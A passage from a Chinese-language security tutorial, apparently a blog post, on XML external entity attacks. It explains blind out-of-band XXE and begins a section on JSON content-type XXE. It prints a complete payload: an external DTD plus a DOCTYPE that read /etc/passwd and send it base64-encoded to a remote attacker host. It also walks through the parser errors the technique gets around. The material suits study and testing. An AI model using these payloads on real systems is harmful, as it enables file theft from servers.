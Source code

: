 **新的问题出现**

但是，你想想也知道，本身人家服务器上的 XML 就不是输出用的，一般都是用于配置或者在某些极端情况下利用其他漏洞能恰好实例化解析 XML 的类，因此我们想要现实中利用这个漏洞就必须找到一个不依靠其回显的方法——外带

**新的解决方法**

想要外带就必须能发起请求，那么什么地方能发起请求呢？ 很明显就是我们的外部实体定义的时候，其实光发起请求还不行，我们还得能把我们的数据传出去，而我们的数据本身也是一个对外的请求，也就是说，我们需要在请求中引用另一次请求的结果，分析下来只有我们的参数实体能做到了(并且根据规范，我们必须在一个 DTD 文件中才能完成“请求中引用另一次请求的结果”的要求)

## **2.2 无回显读取本地敏感文件(Blind OOB XXE)**

**test.dtd**
```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.137.131:9999?p=%file;'>">
```
**Payload:**
```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://192.168.137.131:8081/test.dtd">
%remote;%int;%send;
]>
```
我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 &#37;)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200222114723266.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70)

问题1：带外数据通道的建立是使用嵌套形式，利用外部实体中的URL发出访问，从而跟攻击者的服务器发生联系
直接在内部实体定义中引用另一个实体的方法如下，但是这种方法行不通，解析直接报错。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200222114807653.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70)

问题2：
但是这样做行不通，原因是不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE convert [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.137.131:9999?p=%file;'>">
%send;]>
即使用嵌套的方式也不行，测试发现报错PEReferences forbidden in internal subset in Entity PEReferences 指的是参数实体引用(Parameter Entity Reference)，禁止在内部Entity中引用参数实体。
```
**解决方案：**
将嵌套的实体声明放入到一个外部文件中，这里一般是放在攻击者的服务器上，这样做可以规避错误。

**新的利用：**
所以要想更进一步的利用我们不能将眼光局限于 file 协议，我们必须清楚地知道在何种平台，我们能用何种协议,如图所示:
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200222114956235.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70)

## **2.3 JSON content-type XXE**
正如我们所知道的，很多web和移动应用都基于客户端-服务器交互模式的web通信服务。不管是SOAP还是RESTful，一般对于web服务来说，最常见的数据格式都是XML和JSON。尽管web服务可能在编程时只使用其中一种格式，但服务器却可以接受开发人员并没有预料到的其他数据格式，这就有可能会导致JSON节点受到XXE（XML外部实体）攻击
原始请求和响应：
```html
HTTP Request:
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/json
Content-Length: 38
{"search":"name","value":"netspitest"}

```